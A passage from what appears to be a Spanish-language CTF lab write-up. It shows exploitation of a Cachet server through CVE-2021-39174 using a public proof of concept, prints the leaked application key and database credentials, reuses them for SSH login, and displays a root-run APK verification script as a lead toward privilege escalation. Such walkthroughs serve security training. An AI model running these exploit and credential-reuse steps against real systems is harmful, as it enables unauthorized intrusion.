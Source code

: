 ```console

# andoid_dev -> Not found
```

-----------------------
# Part 4: Cachet CVE

Con ssh la contraseña da acceso denegado pero para el cachet (puerto 8000 /auth/login) si que va.
![catch7](https://user-images.githubusercontent.com/96772264/210349647-e5ce57dd-8552-4ca3-9fd2-d792676889b8.PNG)
![catch6](https://user-images.githubusercontent.com/96772264/210350443-734d26f6-645a-4f35-8448-69ec4f796db4.PNG)

Busco ```Cachet exploits``` en google y doy con esta [web](https://www.sonarsource.com/blog/cachet-code-execution-via-laravel-configuration-injection/)
que me habla de varios, entre ellos CVE-2021-39174. Busco ```CVE-2021-39174 Poc``` y doy con [este](https://github.com/n0kovo/CVE-2021-39174-PoC)
Luego al final lo explico

```console
└─$ python3 exploit.py -p 'E}V!mywu_69T4C}W' -n "john" -u "http://10.10.11.150:8000" 
- APP_KEY		= base64:9mUxJeOqzwJdByidmxhbJaa74xh3ObD79OI6oG1KgyA=
- DB_DRIVER		= mysql
- DB_HOST		= localhost
- DB_DATABASE		= cachet
- DB_USERNAME		= will
- DB_PASSWORD		= s2#4Fg0_%3!
```
Estas creds sirven para hacer SSH a la máquina como Will
```console
└─$ sshpass -p 's2#4Fg0_%3!' ssh will@10.10.11.150
```
-----------------------
# Part 5: En el sistema

Subimos dos [herramientas](https://github.com/CUCUxii/Pentesting-tools) al sistema 
Si enumeramos el sistema con lin_info_xii.sh, dice que varias veces se ha corrido  "_ /bin/bash /root/check.sh" pero no podemos acceder a el.  
Con procmon.sh vemos que corre "/opt/mdm/verify.sh"  

El script es tal que asi:
```bash
#!/bin/bash

# Cleanup #
cleanup() { rm -rf /root/mdm/process_bin;rm -rf "/opt/mdm/apk_bin/*" "/root/mdm/apk_bin/*";rm -rf $(ls -A /opt/mdm | grep -v apk_bin | grep -v verify.sh }

# MDM CheckerV1.0 #
for IN_APK_NAME in /opt/mdm/apk_bin/*.apk; do
	OUT_APK_NAME="$(echo ${IN_APK_NAME##*/} | cut -d '.' -f1)_verified.apk"
	APK_NAME="$(openssl rand -hex 12).apk"
	if [[ -L "$IN_APK_NAME" ]]; then
		exit
	else
		mv "$IN_APK_NAME" "/root/mdm/apk_bin/$APK_NAME"
	fi
	sig_check /root/mdm/apk_bin $APK_NAME
	comp_check /root/mdm/apk_bin $APK_NAME /root/mdm/process_bin
	app_check /root/mdm/process_bin /root/mdm/certified_apps /root/mdm/apk_bin $OUT_APK_NAME
done
cleanup
```